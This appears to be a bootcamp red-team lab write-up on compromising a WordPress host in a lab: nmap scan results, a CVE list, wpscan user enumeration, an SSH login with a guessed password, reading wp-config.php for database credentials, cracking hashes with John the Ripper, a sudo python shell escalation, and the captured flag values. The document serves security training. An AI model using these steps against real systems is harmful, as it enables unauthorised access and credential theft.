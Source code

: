 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap 192.168.1.110 -sV
  # Nmap 7.80 scan initiated Mon Jun 13 14:44:13 2022 as: nmap -sV -oN sV_scan.txt 192.168.1.110
  Nmap scan report for 192.168.1.110
  Host is up (0.0011s latency).
  Not shown: 995 closed ports
  PORT    STATE SERVICE     VERSION
  22/tcp  open  ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
  80/tcp  open  http        Apache httpd 2.4.10 ((Debian))
  111/tcp open  rpcbind     2-4 (RPC #100000)
  139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
  445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
  MAC Address: 00:15:5D:00:04:10 (Microsoft)
  Service Info: Host: TARGET1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22: OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
  - port 80: Apache httpd 2.4.10 ((Debian))
  - port 111: 2-4 (RPC #100000)
  - port 139: Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
  - port 445: Samba smbd 3.X - 4.X (workgroup: WORKGROUP)

The following vulnerabilities were identified on each target:
- Target 1
  - CVE-2021-44228 Log4j Severity: 10.0 https://nvd.nist.gov/vuln/detail/CVE-2021-44228
  - CVE-2022-23943 Severity: 9.8 https://vulners.com/cve/CVE-2022-23943
  - CVE-2022-22720	Severity: 9.8	https://vulners.com/cve/CVE-2022-22720
  - CVE-2021-44790	Severity: 9.8	https://vulners.com/cve/CVE-2021-44790
  - CVE-2021-39275	Severity: 9.8	https://vulners.com/cve/CVE-2021-39275
  - CVE-2021-26691	Severity: 9.8	https://vulners.com/cve/CVE-2021-26691
  - CVE-2017-7679	Severity: 9.8	https://vulners.com/cve/CVE-2017-7679
  - CVE-2017-3169	Severity: 9.8	https://vulners.com/cve/CVE-2017-3169
  - CVE-2017-3167	Severity: 9.8	https://vulners.com/cve/CVE-2017-3167

[nmap vuln scan](https://github.com/Jerec-Huddleston/Bootcamp-Homework/blob/main/24-Final-Project/Red/vuln_scan.txt)

[nmap vulners scan](https://github.com/Jerec-Huddleston/Bootcamp-Homework/blob/main/24-Final-Project/Red/vulners_scan.txt)

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1`: b9bbcb33e11b80be759c4e844862482d
    - **Exploit Used**
      - wordpress user enumeration
        - `wpscan –-url http://192.168.1.110/wordpress --enumerate u`
          ![wpscan](https://github.com/Jerec-Huddleston/Bootcamp-Homework/blob/main/24-Final-Project/Red/img/wpscan.PNG)
      - ssh connection with password guessing
        - `ssh michael@192.168.1.110`
        - password: `michael`

      ![flag 1](https://github.com/Jerec-Huddleston/Bootcamp-Homework/blob/main/24-Final-Project/Red/img/flag%201.PNG)
  - `flag2.txt`: fc3fd58dcdad9ab23faca6e9a36e581c
    - **Exploit Used**
      - same as flag 1
        
      ![flag 2](https://github.com/Jerec-Huddleston/Bootcamp-Homework/blob/main/24-Final-Project/Red/img/flag%202.PNG)
  - `flag3`: afc01ab56b50591e7dccf93122770cd2
    - **Exploit Used**
      - login info from database config file
         - `less /var/www/html/wordpress/wp-config.php`

      ![flag 3](https://github.com/Jerec-Huddleston/Bootcamp-Homework/blob/main/24-Final-Project/Red/img/flag%203.PNG)
  - `flag4`: 715dea6c055b9fe3337544932f2941ce
    - **Exploit Used**
      - password hashes from wp_users
        ![wp_users](https://github.com/Jerec-Huddleston/Bootcamp-Homework/blob/main/24-Final-Project/Red/img/wp_users.PNG)
      - john the ripper to crack password hashes
        ![john](https://github.com/Jerec-Huddleston/Bootcamp-Homework/blob/main/24-Final-Project/Red/img/john%20the%20ripper.PNG)
      - ssh with cracked password
        - `ssh steven@192.168.1.110`
      - python privilege escalation
        - `sudo python -c 'import pty;pty.spawn("/bin/bash");'`

      ![flag 4](https://github.com/Jerec-Huddleston/Bootcamp-Homework/blob/main/24-Final-Project/Red/img/flag4.PNG)
